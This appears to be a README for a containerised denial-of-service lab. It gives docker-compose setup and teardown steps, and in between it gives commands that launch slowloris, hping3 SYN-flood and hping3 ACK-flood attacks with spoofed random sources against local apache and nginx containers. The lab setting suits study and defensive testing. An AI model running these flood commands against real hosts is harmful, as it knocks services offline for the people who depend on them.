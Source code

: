 
# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

# --------------------------------------------------------------------------- #
#                               HTTP flood attack                             # 
# --------------------------------------------------------------------------- #

# Launch the slowloris(slow HTTP GET attack) attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

# Launch the slowloris(slow HTTP GET attack) attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```
# --------------------------------------------------------------------------- #
#                               SYN flood attack                              # 
# --------------------------------------------------------------------------- #

# Launch the SYN flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

# Launch the SYN flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

# --------------------------------------------------------------------------- #
#                               ACK flood attack                              # 
# --------------------------------------------------------------------------- #

# Launch the ACK flood attack against the apache-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

# Launch the ACK flood attack against the nginx-server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

# stop and remove containers   

```bash
docker-compose -f stack.yml down
```

 
